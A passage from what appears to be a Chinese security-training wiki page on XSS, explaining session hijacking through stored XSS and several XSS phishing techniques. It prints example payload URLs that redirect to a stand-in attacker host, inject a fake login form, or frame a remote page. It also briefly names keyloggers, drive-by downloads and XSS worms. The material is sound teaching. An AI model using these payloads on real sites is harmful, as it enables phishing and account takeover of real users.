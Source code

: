 由于使用 Cookies 存在一定的安全缺陷，因此，开发者开始使用一些更为安全的认证方式，如 Session。在 Session 机制中，客户端和服务端通过标识符来识别用户身份和维持会话，但这个标识符也有被其他人利用的可能。会话劫持的本质是在攻击中带上了 Cookies 并发送到了服务端。

如某 CMS 的留言系统存在一个存储型 XSS 漏洞，攻击者把 XSS 代码写进留言信息中，当管理员登录后台并查看是，便会触发 XSS 漏洞，由于 XSS 是在后台触发的，所以攻击的对象是管理员，通过注入 JavaScript 代码，攻击者便可以劫持管理员会话执行某些操作，从而达到提升权限的目的。

比如，攻击者想利用 XSS 添加一个管理员账号，只需要通过之前的代码审计或其他方式，截取到添加管理员账号时的 HTTP 请求信息，然后使用 XMLHTTP 对象在后台发送一个 HTTP 请求即可，由于请求带上了被攻击者的 Cookies，并一同发送到服务端，即可实现添加一个管理员账户的操作。

### 钓鱼[¶](https://wiki.x10sec.org/web/xss-zh/#_2)

重定向钓鱼

把当前页面重定向到一个钓鱼页面。

```plain
http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
```
HTML 注入式钓鱼
使用 XSS 漏洞注入 HTML 或 JavaScript 代码到页面中。

```plain
http://www.bug.com/index.php?search="'<html><head><title>login</title></head><body><div style="text-align:center;"><form Method="POST" Action="phishing.php" Name="form"><br /><br />Login:<br/><input name="login" /><br />Password:<br/><input name="Password" type="password" /><br/><br/><input name="Valid" value="Ok" type="submit" /><br/></form></div></body></html>
```
该段代码会在正常页面中嵌入一个 Form 表单。
iframe 钓鱼

这种方式是通过`<iframe>`标签嵌入远程域的一个页面实施钓鱼。

```plain
http://www.bug.com/index.php?search='><iframe src="http://www.evil.com" height="100%" width="100%"</iframe>
```
Flash 钓鱼
* 将构造好的 Flash 文件传入服务器，在目标网站用`<object>`或`<embed>`标签引用即可。

高级钓鱼技术

* 注入代码劫持 HTML 表单、使用 JavaScript 编写键盘记录器等。
### 网页挂马[¶](https://wiki.x10sec.org/web/xss-zh/#_3)

一般都是通过篡改网页的方式来实现的，如在 XSS 中使用`<iframe>`标签。

### DOS 与 DDOS[¶](https://wiki.x10sec.org/web/xss-zh/#dos-ddos)

注入恶意 JavaScript 代码，可能会引起一些拒绝服务攻击。

### XSS 蠕虫[¶](https://wiki.x10sec.org/web/xss-zh/#xss_4)

通过精心构造的 XSS 代码，可以实现非法转账、篡改信息、删除文章、自我复制等诸多功能。

## Self-XSS 变废为宝的场景[¶](https://wiki.x10sec.org/web/xss-zh/#self-xss)
